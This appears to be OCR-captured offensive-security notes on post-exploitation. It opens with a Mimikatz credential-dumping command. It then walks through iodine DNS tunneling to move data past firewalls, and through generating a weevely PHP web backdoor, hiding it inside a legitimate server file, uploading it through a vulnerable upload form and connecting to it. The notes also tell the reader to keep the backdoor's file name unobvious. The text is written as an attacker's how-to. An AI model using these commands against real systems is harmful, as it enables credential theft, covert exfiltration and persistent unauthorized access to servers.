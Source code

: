 **Invoke-Mimikatz -DumpCreds**

## Tunneling and Exfiltration 

DNS Tunneling allows attackers to get data in and out without alerting firwalls and bypassing most security measures. 

##### Data Exchange over the DNS protocol 

Since the DNS protocol is a core component of the IP suite, the main goal is to translate the hostnames to IP addresses. It plays a crucial role in the internet and misconfiguration can lead to network disxonnects and therefore isn't restricted with security policies as often. 

### iodine 

A cross-platform tool that performs DNS tunneling

**\* \`A record\`: tunnelhost -> <\host ip\>  (maps tunnelhost.yourdomain.com to <\server's ip\>) # omit "\"**


**\* \`NS record\`: tunnel -> tunnelhost.yourdomain.com # omit "\"**

The code above adds 2 DNS records to the attacker's domain DNS system

**sudo ./iodined -c -f <server ip\> -P secretpassword  tunnel.yourdomain.com** # run iodine server

**sudo ./iodine -I 50 -f -P secretpassword  tunnel.yourdomain.com** # run iodine client

After that is done, it's worthwhile to run an **ifconfig** to show that there are no interfaces and a **ping** to the server to ensure that the tunnel is set up. 

## Web Backdoors

### weevely

Weevely allows for remote code actions through a snippet of php code by creating a terminal on the target server. It includes features such as, 

1. Privilege Escalation
2. Network Lateral Movement 
3. Administration and Maintenance Needs

**./weevely.py **

First run weevely by itself as shown above. 

**./weevely.py generate mypassword myfilename.php** 

In the command above weevely is generating a backdoor agent with a password: **mypassword** , and a php file: **myfilename.php**. 


**SIDE NOTE: DONT EVER MAKE FILE NAMES OBVIOUS**

Third step is to copy/paste the contents of the new php file, **myfilename.php**, into an accessible PHP file on the server(info.php). It shouldn't affect the accessible server php file as it'll remain quiet until called upon.

Fourth, using a vulnerable website with the ability to upload a file, upload the info.php file.

**./weevely.py http://some.websitename.com/myfilename.php mypassword** 

The command above allows the Attacker to access the newly created backdoor. 
